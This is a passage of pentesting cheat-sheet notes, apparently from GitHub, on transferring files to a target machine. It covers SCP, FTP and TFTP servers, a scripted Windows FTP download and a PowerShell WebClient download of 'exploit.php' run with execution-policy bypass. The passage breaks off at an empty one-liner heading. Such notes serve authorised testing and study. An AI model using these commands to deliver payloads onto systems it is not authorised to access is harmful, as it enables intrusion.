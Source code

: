 ```dirsearch -u <url>```

*Get with SCP*

    scp <user>@<ip>:<filename> <target>


*ftp hosting with python*

    apt-get install python-pyftpdlib
    go to the folder you want to use
    python -m pyftpdlib -p 21
    p for port

*get files over windows shell*

    ftp <ip>
    binary - so the files are having the correct chars

*script it*

    echo open <ip> ftp.txt
    echo anonymous >> ftp.txt
    echo pass >> ftp.txt
    echo get exploit.php >> ftp.txt
    echo bye >> gtp.txt

    ftp -s:ftp.txt

There should not be spaces in there

*host with msfconsole*

    use auxiliary/server/ftp
    exploit

For old windows machines

*TFTP*

    On Linux
    atftpd --daemon --port 69 /var/www/html

    On Windows
    tftp -i <ip> get exploit.php

*Powershell*

    echo $storage = $pwd > get.ps1
    echo $webclient = New-Object System.Net.Webclient >> get.ps1
    echo $url = "http://<ip>/exploit.php" >> get.ps1
    echo $file = "exploit.php" >> get.ps1
    echo $webclient.DownloadFile($url,$file) >> get.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File get.ps1

    Also works as oneliner 
    echo $storage = $pwd&$webclient = New-Object System.Net.Webclient&$url = "http://<ip>/exploit.php"&$file = "exploit.php"&$webclient.DownloadFile($url,$file) >> get.ps1

*Powershell One-Liner*

```